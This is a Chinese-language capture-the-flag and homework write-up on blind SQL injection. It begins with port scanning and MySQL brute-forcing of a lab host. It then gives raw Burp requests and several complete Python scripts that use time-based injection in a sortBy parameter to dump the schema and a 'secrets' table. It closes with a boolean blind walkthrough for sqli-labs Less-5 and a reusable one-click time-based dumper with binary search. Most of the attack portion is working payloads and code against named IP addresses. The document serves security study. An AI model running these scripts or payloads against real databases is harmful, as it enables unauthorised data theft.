



# 尖端科技靶场 http://113.45.189.144:5000/#)

##### 首先看一下大致情况


#### 没啥有用的

```
nmap -p- --min-rate 10000 113.45.189.144    先全端口扫描一下
nmap -p 2000,3306,3389,5000,49664,49693 -sV -sC

PORT      STATE SERVICE       VERSION
2000/tcp  open  tcpwrapped
3306/tcp  open  mysql         MySQL (unauthorized)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5000/tcp  open  http          Werkzeug httpd 3.1.3 (Python 3.12.0)
49664/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
```

**3306/tcp → MySQL (unauthorized)**
 说明 MySQL 存在，但未允许匿名访问。可能需要用户/密码，值得后续用 **弱口令测试**

**3389/tcp → RDP (Windows Server 2016/2019 内核 10.0.14393)**

- TLS 证书显示机器名 `hcss-ecs-19a2`。
- 暴露的 RDP 服务是攻击者的高价值目标，需要确认是否对公网开放。
- 建议检查是否开启了 **网络级别身份验证 (NLA)**，以及是否打了 **BlueKeep (CVE-2019-0708)** 等补丁。

```
探测账户是否存在弱口令
nmap --script mysql-brute -p3306 113.45.189.144   失败
尝试目录爆破：
gobuster dir -u http://113.45.189.144:5000 -w   /usr/share/wordlists/dirb/common.txt     失败

```

然后就是5000端口的web服务

尝试了很久很久，总结就是 ***/api/public_search*** 有很严格的过滤规则

```
query输入啥都是返回空，单引号被过滤，延迟注也不行
sortBy严格的一批，只接受name和price,
order只能升序降序
```


#### 没办法了去扒一下前端js和html的源码，让cursor代码审计


### 发现 **/api/developer_utils/sorted_query **可以接受 **sortby** 的传参

### 赞美cursor

#### 接下来就是数据库长度手工盲注

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close
Content-Length: 91

{"query":"\u6fc0\u5149","sortBy":"name,IF(LENGTH(DATABASE())=9,SLEEP(20),1)","order":"asc"}
确定数据库名称是9位


POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close
Content-Length: 95

{"query":"%","sortBy":"name,IF(ASCII(SUBSTRING(DATABASE(),1,1))=119,SLEEP(5),1)","order":"asc"}

第一个字符是119，也就是w

这里服务器炸了，卡了好久

```

# 现在是00点43分，夜深人静，没人爆破，我来爆破，开始快车道模式


从结果可以看出1-9 的码为

```
119 101 98 97 112 112 95 100 98    数据库名称是webapp_db
```




#### 现在看 *webapp_db* 数据库有几个表

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close
Content-Length: 140

{"query":"%","sortBy":"name,IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='webapp_db')=3,SLEEP(5),1)","order":"asc"}
```

#### 确定表有三个

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close
Content-Length: 160

{"query":"%","sortBy":"name,IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 0,1))=1,SLEEP(5),1)","order":"asc"}
```

直接爆破，得知第一个表长度是8


爆破第一个表的名字

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 0,1),1,1))=48,SLEEP(5),1)","order":"asc"}
```


爆出结果


```
112 114 111 100 117 99 116 115   第一个表的名字是   products
```

### 爆破第二个表的长度

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 1,1))=1,SLEEP(5),1)","order":"asc"}
```


长度是7，继续爆破名字

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 1,1),1,1))=109,SLEEP(5),1)","order":"asc"}
```

#### 依旧集群炸弹


依旧筛选超高延迟


```
115 101 99 114 101 116 115   第二个表是->secrets  发现了你的小秘密 嘿嘿🤭 01点18分
```


照葫芦画瓢第三个表

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 2,1))=5,SLEEP(5),1)","order":"asc"}
```


### 长度是27，这尼玛太长了

最后爆名字

```
POST /api/developer_utils/sorted_query HTTP/1.1
Host: 113.45.189.144:5000
User-Agent: Burp
Accept: application/json
Content-Type: application/json
Origin: http://113.45.189.144:5000
Referer: http://113.45.189.144:5000/
Connection: close

{"query":"%","sortBy":"name,IF(ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='webapp_db' LIMIT 2,1),1,1))=109,SLEEP(5),1)","order":"asc"}
```


```
得知最后表的名字为：zhu laoshi tianrongxinkebiao          01点34分 感谢chatgpt
```

### 现在我们已经获取了完整的数据库结构：

- 数据库：`webapp_db`
- 表1：`products`（商品表）
- 表2：`secrets`（敏感信息表）
- 表3：`zhu_laoshi_tianrongxinkebiao`（可能是用户表）

#### 后续就是爆表里面的东西

### 实在不想写了，直接生成脚本自动跑


### 脚本1：查看secrets表结构

```
import requests
import time

def test_sqli(payload):
    url = "http://113.45.189.144:5000/api/developer_utils/sorted_query"
    data = {
        "query": "%",
        "sortBy": f"name,IF({payload},SLEEP(5),1)",
        "order": "asc"
    }
    start = time.time()
    try:
        r = requests.post(url, json=data)
        elapsed = time.time() - start
        return elapsed > 4.5  # 延迟判断
    except:
        return False

def get_column_count():
    """获取secrets表的列数"""
    print("正在枚举secrets表的列数...")
    for count in range(1, 11):  # 假设最多10列
        payload = f"(SELECT COUNT(*) FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='secrets')={count}"
        if test_sqli(payload):
            print(f"secrets表有 {count} 列")
            return count
    return 0

def get_column_name(column_index):
    """获取指定索引的列名"""
    print(f"正在枚举第{column_index+1}列的名称...")
    
    # 先获取列名长度
    length = 0
    for len_val in range(1, 51):  # 假设列名最长50字符
        payload = f"LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='secrets' LIMIT {column_index},1))={len_val}"
        if test_sqli(payload):
            length = len_val
            print(f"第{column_index+1}列名长度为: {length}")
            break
    
    if length == 0:
        return ""
    
    # 逐字符枚举列名
    column_name = ""
    for pos in range(1, length + 1):
        for ascii_val in range(32, 127):  # 可打印字符
            payload = f"ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='secrets' LIMIT {column_index},1),{pos},1))={ascii_val}"
            if test_sqli(payload):
                column_name += chr(ascii_val)
                print(f"第{column_index+1}列第{pos}个字符: {chr(ascii_val)}")
                break
        else:
            print(f"第{column_index+1}列第{pos}个字符枚举失败")
            break
    
    return column_name

def main():
    print("开始自动化枚举secrets表结构...")
    
    # 获取列数
    column_count = get_column_count()
    if column_count == 0:
        print("无法获取列数")
        return
    
    # 枚举每列的名称
    columns = []
    for i in range(column_count):
        column_name = get_column_name(i)
        columns.append(column_name)
        print(f"第{i+1}列: {column_name}")
    
    print(f"\nsecrets表结构:")
    for i, col in enumerate(columns):
        print(f"  {i+1}. {col}")

if __name__ == "__main__":
    main()
```


```
secrets表结构:
  1. id
  2. secret_key
  3. description
```


### 脚本2：查看 products 表结构

```
import requests
import time

def test_sqli(payload):
    url = "http://113.45.189.144:5000/api/developer_utils/sorted_query"
    data = {
        "query": "%",
        "sortBy": f"name,IF({payload},SLEEP(5),1)",
        "order": "asc"
    }
    start = time.time()
    try:
        r = requests.post(url, json=data)
        elapsed = time.time() - start
        return elapsed > 4.5
    except:
        return False

def get_column_count(table_name):
    """获取指定表的列数"""
    print(f"正在枚举{table_name}表的列数...")
    for count in range(1, 11):
        payload = f"(SELECT COUNT(*) FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}')={count}"
        if test_sqli(payload):
            print(f"{table_name}表有 {count} 列")
            return count
    return 0

def get_column_name(table_name, column_index):
    """获取指定表的指定索引的列名"""
    print(f"正在枚举{table_name}表第{column_index+1}列的名称...")
    
    # 先获取列名长度
    length = 0
    for len_val in range(1, 51):
        payload = f"LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}' LIMIT {column_index},1))={len_val}"
        if test_sqli(payload):
            length = len_val
            print(f"第{column_index+1}列名长度为: {length}")
            break
    
    if length == 0:
        return ""
    
    # 逐字符枚举列名
    column_name = ""
    for pos in range(1, length + 1):
        for ascii_val in range(32, 127):
            payload = f"ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}' LIMIT {column_index},1),{pos},1))={ascii_val}"
            if test_sqli(payload):
                column_name += chr(ascii_val)
                print(f"第{column_index+1}列第{pos}个字符: {chr(ascii_val)}")
                break
        else:
            print(f"第{column_index+1}列第{pos}个字符枚举失败")
            break
    
    return column_name

def main():
    table_name = "products"
    print(f"开始自动化枚举{table_name}表结构...")
    
    # 获取列数
    column_count = get_column_count(table_name)
    if column_count == 0:
        print("无法获取列数")
        return
    
    # 枚举每列的名称
    columns = []
    for i in range(column_count):
        column_name = get_column_name(table_name, i)
        columns.append(column_name)
        print(f"第{i+1}列: {column_name}")
    
    print(f"\n{table_name}表结构:")
    for i, col in enumerate(columns):
        print(f"  {i+1}. {col}")

if __name__ == "__main__":
    main()
```

### 现在是03点01分，睡觉，暂时就爆破到这里

07点35分醒了，来查看跑一晚上的成果


产品表里面没有重要的东西，是前端要显示的产品名称

符合id，名称，描述，价格


### 脚本3：查看 zhu_laoshi_tianrongxinkebiao 表结构

```
import requests
import time

def test_sqli(payload):
    url = "http://113.45.189.144:5000/api/developer_utils/sorted_query"
    data = {
        "query": "%",
        "sortBy": f"name,IF({payload},SLEEP(5),1)",
        "order": "asc"
    }
    start = time.time()
    try:
        r = requests.post(url, json=data)
        elapsed = time.time() - start
        return elapsed > 4.5
    except:
        return False

def get_column_count(table_name):
    """获取指定表的列数"""
    print(f"正在枚举{table_name}表的列数...")
    for count in range(1, 11):
        payload = f"(SELECT COUNT(*) FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}')={count}"
        if test_sqli(payload):
            print(f"{table_name}表有 {count} 列")
            return count
    return 0

def get_column_name(table_name, column_index):
    """获取指定表的指定索引的列名"""
    print(f"正在枚举{table_name}表第{column_index+1}列的名称...")
    
    # 先获取列名长度
    length = 0
    for len_val in range(1, 51):
        payload = f"LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}' LIMIT {column_index},1))={len_val}"
        if test_sqli(payload):
            length = len_val
            print(f"第{column_index+1}列名长度为: {length}")
            break
    
    if length == 0:
        return ""
    
    # 逐字符枚举列名
    column_name = ""
    for pos in range(1, length + 1):
        for ascii_val in range(32, 127):
            payload = f"ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='webapp_db' AND table_name='{table_name}' LIMIT {column_index},1),{pos},1))={ascii_val}"
            if test_sqli(payload):
                column_name += chr(ascii_val)
                print(f"第{column_index+1}列第{pos}个字符: {chr(ascii_val)}")
                break
        else:
            print(f"第{column_index+1}列第{pos}个字符枚举失败")
            break
    
    return column_name

def main():
    table_name = "zhu_laoshi_tianrongxinkebiao"
    print(f"开始自动化枚举{table_name}表结构...")
    
    # 获取列数
    column_count = get_column_count(table_name)
    if column_count == 0:
        print("无法获取列数")
        return
    
    # 枚举每列的名称
    columns = []
    for i in range(column_count):
        column_name = get_column_name(table_name, i)
        columns.append(column_name)
        print(f"第{i+1}列: {column_name}")
    
    print(f"\n{table_name}表结构:")
    for i, col in enumerate(columns):
        print(f"  {i+1}. {col}")

if __name__ == "__main__":
    main()
```



？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？

？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？

？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？

？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？？


### 脚本4  查看 secrets 表的内容

```
import requests
import time

def test_sqli(payload):
    url = "http://113.45.189.144:5000/api/developer_utils/sorted_query"
    data = {
        "query": "%",
        "sortBy": f"name,IF({payload},SLEEP(5),1)",
        "order": "asc"
    }
    start = time.time()
    try:
        r = requests.post(url, json=data)
        elapsed = time.time() - start
        return elapsed > 4.5
    except:
        return False

def get_row_count():
    """获取secrets表的行数"""
    print("正在枚举secrets表的行数...")
    for count in range(0, 11):  # 假设最多10行
        payload = f"(SELECT COUNT(*) FROM secrets)={count}"
        if test_sqli(payload):
            print(f"secrets表有 {count} 行数据")
            return count
    return 0

def get_field_value(row_index, column_name, field_index):
    """获取指定行指定列的值"""
    print(f"正在枚举第{row_index+1}行{column_name}字段的值...")
    
    # 先获取字段值长度
    length = 0
    for len_val in range(0, 201):  # 假设字段值最长200字符
        payload = f"LENGTH((SELECT {column_name} FROM secrets LIMIT {row_index},1))={len_val}"
        if test_sqli(payload):
            length = len_val
            print(f"第{row_index+1}行{column_name}字段长度为: {length}")
            break
    
    if length == 0:
        return ""
    
    # 逐字符枚举字段值
    field_value = ""
    for pos in range(1, length + 1):
        for ascii_val in range(32, 127):  # 可打印字符
            payload = f"ASCII(SUBSTRING((SELECT {column_name} FROM secrets LIMIT {row_index},1),{pos},1))={ascii_val}"
            if test_sqli(payload):
                field_value += chr(ascii_val)
                print(f"第{row_index+1}行{column_name}第{pos}个字符: {chr(ascii_val)}")
                break
        else:
            print(f"第{row_index+1}行{column_name}第{pos}个字符枚举失败")
            break
    
    return field_value

def main():
    print("开始自动化枚举secrets表内容...")
    
    # 获取行数
    row_count = get_row_count()
    if row_count == 0:
        print("secrets表为空")
        return
    
    # 枚举每行的数据
    columns = ["id", "secret_key", "description"]
    
    for row in range(row_count):
        print(f"\n=== 第{row+1}行数据 ===")
        row_data = {}
        
        for col in columns:
            value = get_field_value(row, col, row)
            row_data[col] = value
            print(f"{col}: {value}")
        
        print(f"完整第{row+1}行: {row_data}")
    
    print(f"\n=== secrets表完整内容 ===")
    for row in range(row_count):
        print(f"第{row+1}行:")
        for col in columns:
            value = get_field_value(row, col, row)
            print(f"  {col}: {value}")

if __name__ == "__main__":
    main()
```


```
{'id': '1', 'secret_key': 'flag{Th1s_1s_A_H1dZ3n_SQLiL!}', 'description': ''}
```

呵呵，找到了flag，算不算完成呢   07点24分


# 数据库结构总结

- **数据库**
   `webapp_db`

- **表结构**

  1. **products**

     - `id`
     - `name`
     - `description`
     - `price`

     不重要，就是产品信息

  2. **secrets**

     - `id`
     - `secret_key`
     - `description`

  3. **zhu_laoshi_tianrongxinkebiao**

     - （枚举失败？？？？？？？）

- **数据内容**

  - 在 `secrets` 表里发现了一条关键数据：

    ```
    id: 1
    secret_key: flag{Th1s_1s_A_H1dZ3n_SQLiL!}
    description: （空）
    ```


# 作业2

------

## 🔹 延迟注入本地示例

### 1. 直接 `SLEEP()`

```sql
SELECT * FROM `users` WHERE id = 1 AND SLEEP(3);
```

👉 效果：查询等待 3 秒。


------

### 2. 用 `CASE WHEN + SLEEP`

```sql
SELECT * FROM `users` 
WHERE id = 1 
  AND (CASE WHEN (1=1) THEN SLEEP(5) ELSE 1 END);
```

👉 效果：条件为真时延迟 5 秒。


------

### 3. 用 `算术运算 + SLEEP`

```sql
SELECT * FROM `users` 
WHERE id = 1 
  AND SLEEP((1=1)*3);
```

👉 效果：布尔值乘以 3 → 等于 3 → 延迟 3 秒。


------

### 4. 用 `BENCHMARK()` 替代 `SLEEP`

```sql
SELECT * FROM `users` 
WHERE id = 1 
  AND BENCHMARK(10000000, MD5('test'));
```

👉 效果：执行大量 MD5 → 查询明显变慢。


------

### 5. `CASE WHEN + BENCHMARK`

```sql
SELECT * FROM `users`
WHERE id = 1
  AND (CASE WHEN (SUBSTRING(user(),1,1)='t') 
            THEN BENCHMARK(10000000,MD5('A')) 
            ELSE 1 END);
```

👉 效果：如果数据库用户名以 `t 开头 → 延迟；否则正常返回。


------

### 6. 利用条件差异制造时间差

```sql
SELECT * FROM `users`
WHERE id = 1
  AND (CASE WHEN (ASCII(SUBSTRING(database(),1,1)) = ASCII('s')) 
            THEN SLEEP(5) ELSE 1 END);
```

👉 效果：如果当前数据库首字母 ASCII = s的ascii码 → 延迟 5 秒，否则立即返回。



------


# 实际靶场 以case5为例

# less-5 布尔盲注

# 🔎 第一步：确认注入点

```
?id=1-14  一直显示的都是you are in .....
?id=15           当id等于15的时候，页面显示为空
大概可以猜测出如果为真就显示，为否就不显示，是标准的盲注
也能知道此表有14个记录

?id=1'             加上' 后报错，证明存在注入点
尝试是否为数字型
?id=1 and 1=1
?id=1 and 1=2      页面没有区别出真假注入点
尝试字符型
?id=1’ and 1=1 --+
```

#### ?id=1' and 1=2 --+  有区别出假注入点，没有了回显，less5是**布尔型盲注**。

#### 并且可以利用 真or否 来盲注


------

## 🔎 第二步：确认当前数据库名

先猜数据库名长度，用burp爆破

```
?id=1' and length(database())=1 --+
```


#### 当数值为8的时候有回显，可以判断数据库长度为8位


再逐字符猜：

```
?id=1' and ascii(substr(database(),1,1))=1 --+
```


#### 筛选成功关键词 you are in，对payload1进行排序


```
可以得知分别得知每一位的码，解析得知是115 101 99 117 114 105  126 121  
```

#### 对照ascii表得知数据库的名称为 security

------

## 🔎 第三步：枚举表名

拿 `information_schema.tables`：

```
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=5 --+
```


### 长度是6

再猜字符：

```
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=117 --+
```


```
拼接一下就是 emails，后续表不做演示
```


------

## 🔎 第四步：枚举列名

##### 上帝视角以 `users`   举例

```
?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))=8 --+
```


列名长度2。

再猜字符：

```
?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=117 --+
```


#### 导出让chatgpt拼接


------

## 🔎 第五步：获取数据

比如第一条用户：

```
?id=1' and length((select username from users limit 0,1))=5 --+    不需要
?id=1' and ascii(substr((select username from users limit 0,1),1,1))=68 --+   直接三个一起爆
```


直接把用户名一起爆出来


ai处理一下


```
Dumb
Angelina
Dumm
secure
stupid
superman
batman
admin
admin1
admin2
admin3
dhakkan
admin4
与数据库相符，结束
```


#### 现在是02点28分，太晚了   时间（if，case when）盲注就让ai写个大概思路


# ⏳ 时间盲注（if / case when）

## 1️⃣ 基本思路

- 布尔盲注是通过页面是否有内容变化来判断条件真假
- 时间盲注是通过 **页面响应时间** 来判断条件真假

> 适用场景：页面无明显回显、但能执行耗时函数（如 `sleep()`）

常用函数：

```sql
sleep(3)            # MySQL延迟3秒
benchmark(5000000,md5(1))  # 计算密集型延迟
```

------

## 2️⃣ 确认注入点

和布尔盲注一样，先判断是否能触发延迟：

```sql
?id=1' and if(1=1, sleep(3), 1) --+   # 页面延迟3秒，说明注入点成立
?id=1' and if(1=2, sleep(3), 1) --+   # 页面秒回，说明条件为假
```

这样确认是 **时间型盲注点**。

------

## 3️⃣ 爆数据库名长度

```sql
?id=1' and if(length(database())=8, sleep(3), 1) --+
```

- 如果延迟，说明长度=8
- 如果不延迟，继续换数值

------

## 4️⃣ 爆数据库名逐字符

```sql
?id=1' and if(ascii(substr(database(),1,1))=115, sleep(3), 1) --+
```

解释：

- `substr(database(),1,1)` → 数据库名第 1 个字符
- `ascii()` 转成 ASCII 码
- 等于 115 时触发延迟

**优化**：结合二分法

```sql
?id=1' and if(ascii(substr(database(),1,1))>110, sleep(3), 1) --+
```

- 根据响应快慢来判断范围，效率比一个个猜高很多。

------

## 5️⃣ 枚举表名 / 列名

### 表名

```sql
?id=1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6, sleep(3), 1) --+
```

### 列名

```sql
?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=117, sleep(3), 1) --+
```

------

## 6️⃣ 获取数据

比如获取第一个用户的用户名：

```sql
?id=1' and if(ascii(substr((select username from users limit 0,1),1,1))=68, sleep(3), 1) --+
```

依次爆破，得到完整字段内容。

------

## 7️⃣ 总结流程

1. **确认注入点**：`and if(1=1,sleep(3),1)--+`
2. **确认数据库名长度**：`length(database())`
3. **爆数据库名逐字符**：`substr()+ascii()+if()+sleep()`
4. **枚举表名**：`information_schema.tables`
5. **枚举列名**：`information_schema.columns`
6. **获取数据**：`select username from users limit x,1`
7. **优化技巧**：用二分法爆 ASCII 提速

#### 一键爆破脚本

```
import requests
import time
import statistics

# ================= 配置区 =================
URL = "http://47.242.11.182:88/Less-5/"
PARAM = "id"
SLEEP = 3              # 每次 sleep 的秒数
MAXLEN = 30            # 最大长度，数据库/表/列/数据都限制
CHARS = list(range(32, 127))   # 可打印ascii
REPEAT = 3             # 每次探测重复次数
TIMEOUT = SLEEP + 5    # 超时时间

# ================= 工具函数 =================
def send_payload(payload: str) -> float:
    params = {PARAM: "1" + payload}
    start = time.time()
    try:
        r = requests.get(URL, params=params, timeout=TIMEOUT)
    except requests.exceptions.Timeout:
        return SLEEP + 1
    return time.time() - start

def is_true(condition: str) -> bool:
    """
    判断条件是否为真，多次采样，取多数投票
    """
    payload = f"' and if({condition}, sleep({SLEEP}), 0)--+"
    times = [send_payload(payload) for _ in range(REPEAT)]
    votes = sum(1 for t in times if t > SLEEP / 2)
    return votes > REPEAT // 2

# ================= 核心函数 =================
def get_length(expr: str, max_len: int = MAXLEN) -> int:
    for L in range(1, max_len+1):
        if is_true(f"length({expr})={L}"):
            print(f"[len] {expr} 长度 = {L}")
            return L
    return 0

def get_string(expr: str, max_len: int = MAXLEN) -> str:
    length = get_length(expr, max_len)
    result = ""
    for pos in range(1, length+1):
        low, high = min(CHARS), max(CHARS)
        while low <= high:
            mid = (low + high) // 2
            if is_true(f"ascii(substr({expr},{pos},1))>{mid}"):
                low = mid + 1
            else:
                high = mid - 1
        result += chr(high)
        print(f"[✓] pos {pos}: {chr(high)}  -> {result}")
    return result

def get_database():
    return get_string("database()")

def get_tables(dbname: str, limit: int = 10):
    tables = []
    for i in range(limit):
        expr = f"(select table_name from information_schema.tables where table_schema='{dbname}' limit {i},1)"
        name = get_string(expr)
        if not name:
            break
        tables.append(name)
    return tables

def get_columns(tablename: str, limit: int = 10):
    cols = []
    for i in range(limit):
        expr = f"(select column_name from information_schema.columns where table_name='{tablename}' limit {i},1)"
        name = get_string(expr)
        if not name:
            break
        cols.append(name)
    return cols

def get_data(tablename: str, colname: str, limit: int = 5):
    rows = []
    for i in range(limit):
        expr = f"(select {colname} from {tablename} limit {i},1)"
        value = get_string(expr)
        if not value:
            break
        rows.append(value)
    return rows

# ================= 主程序 =================
if __name__ == "__main__":
    print("[*] Step1: 爆当前数据库名")
    db = get_database()
    print(f"[OK] 当前数据库: {db}")

    print("\n[*] Step2: 爆表名")
    tables = get_tables(db)
    print(f"[OK] 表: {tables}")

    for t in tables:
        print(f"\n[*] Step3: 爆列名 in {t}")
        cols = get_columns(t)
        print(f"[OK] {t} 的列: {cols}")

        for c in cols:
            print(f"\n[*] Step4: 爆数据 {t}.{c}")
            rows = get_data(t, c)
            print(f"[OK] {t}.{c} 数据: {rows}")

```

